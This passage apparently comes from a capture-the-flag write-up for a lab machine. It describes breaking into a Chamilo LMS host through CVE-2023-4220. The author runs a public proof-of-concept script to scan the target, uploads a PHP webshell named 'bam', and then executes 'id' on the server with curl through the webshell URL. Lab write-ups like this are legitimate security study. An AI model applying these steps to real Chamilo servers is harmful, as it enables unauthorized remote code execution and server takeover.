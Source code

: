 we were able to discover 2 submaoins www and lms, the only thing we need is lms
#### Adding Subdomain and Initial Exploitation

 Adding `lms.permx.htb` to Hosts File

First, I added the subdomain `lms.permx.htb` to my hosts file to access the application running on that subdomain.
After adding the subdomain, I navigated to http://lms.permx.htb and found a login form for Chamilo LMS.
![login chamilo](https://github.com/user-attachments/assets/181022bc-32a2-4e83-bd0d-6a5d9fb8bd6f)


I tried default credentials and tested for SQL injection/ other vulnerabilities, but didn’t have much luck. I then searched online for known exploits for Chamilo LMS.

Unable to get the version number, I decided to try various exploits that I found. Eventually, I came across an exploit that worked:
#### Vulnerability Overview: CVE-2023-4220

CVE-2023-4220 is a critical RCE vulnerability in Chamilo LMS that allows unauthenticated attackers to upload malicious files and execute arbitrary commands on the server.
## Proof of Concept: CVE-2023-4220

### PoC Tool

I used the PoC from the following GitHub repository to exploit CVE-2023-4220:
[Chamilo LMS Unauthenticated Big Upload RCE PoC](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)

### Script Usage

The script requires the target URL with Chamilo's root path (e.g., `http://example.com/chamilo`, `http://example.com`, or `http://chamilo.example.com`) and an action to perform. It supports three actions:
- **scan**: Checks if the target is vulnerable.
- **webshell**: Creates a web shell for further exploitation.
- **revshell**: Opens a reverse shell directly.

 to check if the target is vulnerable:
```bash
python3 poc.py -u http://lms.permx.htb -a scan
[+] Target is likely vulnerable. Go ahead. [+]
```
i got a positive response indicating the webapp might be vulnerable
## Exploiting the Vulnerability

Since the web service was found to be vulnerable, I proceeded to exploit it by creating a web shell.

1. **Run the PoC Script**: I used the PoC tool to upload a web shell. The command was:
   ```bash
   python3 poc.py -u http://lms.permx.htb -a webshell
```
Enter the name of the webshell file that will be placed on the target server (default: webshell.php): bam
```
i was asked to chose a name for the webshell so i chose a random name "bam"

after that the websell was created and i was given the url to access it
```bash
[+] Upload successfull [+]
Webshell URL: http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/bam.php?cmd=<command>
```
testing it the webshell works 
```
curl http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/bam.php?cmd=id 
```